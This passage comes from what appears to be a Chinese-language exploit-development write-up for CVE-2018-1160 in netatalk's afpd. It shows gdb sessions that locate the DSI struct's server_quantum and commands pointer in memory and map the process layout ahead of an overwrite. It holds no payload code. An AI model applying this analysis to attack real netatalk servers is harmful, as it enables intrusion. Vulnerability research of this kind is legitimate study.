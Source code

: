 由于父进程不会死，所以很方便，还是原来的命令，断点直接打在刚才死的位置，打完exp后成功断下：

```python
➜  sudo gdb --pid 123345 -q
gef➤  set follow-fork-mode child
gef➤  b * 0x7f863b486fbb
gef➤  c
Continuing.
[New process 123664]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Switching to Thread 0x7f863b8e7740 (LWP 123664)]

Thread 2.1 "afpd" hit Breakpoint 1, 0x00007f863b486fbb in dsi_opensession () from ./libatalk.so.18
```

全局搜索特征串xuan，分析后，rdi寄存器的值，也即0x563fcd14e5e0，就是结构中server_quantum的位置：

```python
gef➤  grep xuan
[+] Searching 'xuan' in memory
[+] In '[heap]'(0x563fcd12c000-0x563fcd16e000), permission=rw-
  0x563fcd14e5e0 - 0x563fcd14e5e4  →   "xuan" 
[+] In (0x7f863b7e6000-0x7f863b8e7000), permission=rw-
  0x7f863b7e601a - 0x7f863b7e601e  →   "xuan" 

gef➤  x /20gx 0x563fcd14e5e0
0x563fcd14e5e0:	0x000100006e617578	0x00007f863b7e6010
0x563fcd14e5f0:	0x0000000000000000	0x0000000000000000
0x563fcd14e600:	0x0000000000000000	0x0000000000000000
```

对应结构体：

```c
/* /netatalk-3.1.11/include/atalk/dsi.h */

#define DSI_DATASIZ       65536

typedef struct DSI {
    ...
    uint32_t attn_quantum, datasize, server_quantum;
    uint16_t serverID, clientID;
    uint8_t  *commands; /* DSI recieve buffer */
    uint8_t  data[DSI_DATASIZ];    /* DSI reply buffer */
```

故位于**0x563fcd14e5e8**的**0x00007f863b7e6010**就是**commands**，根据程序内存布局，梳理一下变量：


```python
...
0x0000563fcc879000 0x0000563fcc8bb000 0x0000000000000000 r-x /mnt/hgfs/桌面/CVE-2018-1160/afpd
0x0000563fccaba000 0x0000563fccabc000 0x0000000000041000 r-- /mnt/hgfs/桌面/CVE-2018-1160/afpd
0x0000563fccabc000 0x0000563fccabf000 0x0000000000043000 rw- /mnt/hgfs/桌面/CVE-2018-1160/afpd
0x0000563fccabf000 0x0000563fccade000 0x0000000000000000 rw- 
0x0000563fcd12c000 0x0000563fcd16e000 0x0000000000000000 rw- [heap]
0x00007f86354f5000 0x00007f86360f6000 0x0000000000000000 rw- 
...
0x00007f863b6ef000 0x00007f863b718000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f863b7e6000 0x00007f863b8e7000 0x0000000000000000 rw- 
0x00007f863b8e7000 0x00007f863b8f8000 0x0000000000000000 rw- 
0x00007f863b916000 0x00007f863b918000 0x0000000000000000 rw- 
0x00007f863b918000 0x00007f863b919000 0x0000000000029000 r-- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f863b919000 0x00007f863b91a000 0x000000000002a000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f863b91a000 0x00007f863b91b000 0x0000000000000000 rw- 
...
```
